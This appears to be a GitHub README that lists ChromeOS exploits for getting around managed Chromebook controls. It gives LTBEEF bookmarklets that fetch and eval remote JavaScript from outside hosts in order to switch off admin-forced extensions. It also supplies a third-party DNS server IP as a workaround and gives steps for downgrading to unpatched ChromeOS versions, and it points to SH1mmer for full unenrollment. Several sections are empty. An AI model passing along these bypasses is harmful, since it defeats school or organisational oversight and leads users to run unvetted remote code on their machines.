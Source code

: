# EXT-REMOVER
This is a curated list of exploits for ChromeOS.   
Many of these exploits can destory your computer if used inproperly.  
  
[Echo put your shebeal  about how chromebooks are trash here]

![image](https://user-images.githubusercontent.com/58097612/191354621-bf7ff072-b9d7-46b5-994a-4d2adbf0e4f3.png)  
Credit: LittleMissNyan

<details>
<summary><b>LTBEEF</b></summary>
LTBEEF is an exploit, created by Bypassi#7037, which abuses api endpoints within the google chrome webstore.  

<b>Please Note:</b> This exploit only works on versions below 106, and eariler versions of 102
  
The origional site created for this exploit can be found at <a href="https://ltbeef.netlify.app/">ltbeef.netlify.app</a>
  
**Instlation**  
There are several vesions of thisexploit you can use, here are the 2 most common versions:
- *Bookmarklets*  
    To use a GUI, bookmark one of the below scripts:  
    - Ingot  
    ```javascript:(function () {var a = document.createElement('script');a.src = 'https://cdn.jsdelivr.net/gh/FogNetwork/Ingot/ingot.min.js';document.body.appendChild(a);}())```
    - Compact Cow's UI  
    ```javascript:fetch(`https://compactcow.com/ltbeef/exploit.js`).then(data=>{data.text().then(text=>{eval(text)})});```  

    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. Simple!  

    Photos of the GUI's:
    ![image](https://user-images.githubusercontent.com/58097612/193318485-5267cd59-fb65-45a5-ad28-7f068bbce974.png)
    ![image](https://user-images.githubusercontent.com/58097612/190276894-fc492c5c-b0ce-4943-ae56-603f75634618.png)
   
- *DNS servers*  
    By changing your DNS server, you can use LTBEEF, even if bookmarklets are blocked.  
      
    First, go to Settings > Network > Wifi > Network, and click on "Custom Name Servers"
    ![image](https://user-images.githubusercontent.com/88395302/212482302-82334f42-c421-45c2-b210-1e700652b5be.png)
    Set every box there to the following ip:  
    ```158.101.114.159``` (Hosted by The Greatest Giant#0110)  
    Navigate to <a href="https://chrome.google.com/webstorex">https://chrome.google.com/webstorex</a> and click on that bookmark. Flip the switches on the extentions you want to disable. 
</details>  

<details>
<summary><b>SH1mmer</b></summary>


</details>

<details>
<summary><b>Point Blank</b></summary>
Point Blank

</details>

<details>
<summary><b>Downgrading</b></summary>  
Downgrading can be used for several exploits, to get to a version that does not have patches for sertain exploits, sutch as LTBEEF. This is a built in feature of ChromeOS.  
   
<i>Requirements</i>
1. USB A thumb drive with at least 16gb storage
2. A personal computer with access to downloading extentions

<i>Setup</i>
1. Navigate to chrome://version on the chromebook you with to downgrade and check for your board under "Platform" (ex I have a c3100 and it's board is stable-channel octopus)
2. Navigate to https://chrome100.dev/ , press ctrl+f and type in your board
3. Find and download the chrome version you want to your personal computer

<i>Instlation</i>
1. Install Chromebook Recovery Utility onto your personal computer (found at <a href="https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en">https://chrome.google.com/webstore/detail/chromebook-recovery-utili/pocpnlppkickgojjlmhdmidojbmbodfm?hl=en</a>  
2. Open the extention, and click on the settings button in to top right hand corner, click "use local image"  
3. Select the recovery image you downloaded from chrome100  
4. Plug in the USB you wish to use, and follow the prompts on the screen  

5. On your chromebook, press esc+reload+power and follow the prompts  
6. On the checking for updates screen, press ctrl+shift+e to skip the "checking for updates" screen  

7. Profit

</details>

<details>
<summary><b>Full Unenrollment</b></summary>
See SH1mmer 🤓
</details>